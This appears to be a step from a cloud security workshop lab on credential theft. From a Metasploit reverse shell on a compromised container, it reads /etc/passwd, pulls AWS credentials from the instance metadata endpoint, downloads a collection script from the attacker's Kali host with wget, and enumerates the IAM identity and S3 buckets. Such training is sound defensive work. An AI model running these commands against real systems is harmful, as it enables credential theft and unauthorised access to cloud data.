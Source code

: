 ```yaml
---
title: "Lab 3: Credential Theft"
weight: 3
---
```


With root access to the container, we will set out to achieve our main objectives, data exfiltration and lateral movement. E-Crime adversaries often prioritize credential theft as a revenue generation strategy. Credentials are sold on the dark web to assist other adversaries in establishing quick and stealthy access to specific target organizations. In general though, credential access is a way to establish persistence and widen the attack.

With reverse shell root access, we can run a couple of simple commands starting with a list of local passwords.

```shell
cat /etc/passwd
```

Next, we’ll try to access EC2 instance metadata to try to capture AWS service credentials.

```shell
curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

> [!NOTE]
> If your Metasploit session closes unexpectedly, type “run -j” at the metasploit console prompt to reconnect to the target.

![Contents of /etc/passwd and instance metadata](/static/img/lab3-1.png)

**Lateral Movement**

We will continue our attack by downloading some additional scripts that we can use to gather more information from the compromised container.

> [!NOTE]
> Using the netstat utility, you can easily find the Kali public IP by listing established HTTPS connections originating from the container.

List established outbound connections to port 443 (HTTPS)

```shell
netstat -n | grep 443
```

![Netstat output](/static/img/lab3-2.png)

_The public IP in the fifth column is the Kali IP. Strip the “:443” socket port._

_Use the Kali’s public IP stored earlier or from the netstat command above, and download the collection.sh script_

```shell
wget http://<<Kali Public IP>>/collection.sh
```

![Download the collection script](/static/img/lab3-3.png)

Having gained an initial foothold in the network, attackers will then attempt to perform privilege escalation in order to move laterally to find more valuable assets.

_Further reading: You can learn about different AWS privilege escalation methods at_ https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/ .

We can begin to determine which other AWS services and infrastructure we can access via the AWS API by examining the IAM identity associated with the compromised container. Earlier, we speculated that AWS cli tools might be installed on the container which is not a recommended practice. We can confirm that.

Identify the AWS identity principal attached to the container

```shell
aws sts get-caller-identity
```

![Discover the identity principal](/static/img/lab3-4.png)

In the IAM role (shown in the “Arn” field) we have a clue about which services we are allowed to access (i.e., “Pod S3 Access”).

Confirm access to S3 by listing the buckets

```shell
aws s3 ls
```

![Listing S3 contents](/static/img/lab3-5.png)

> [!NOTE]
> If your Metasploit session closes unexpectedly, type “run -j” at the metasploit console prompt to reconnect to the target.
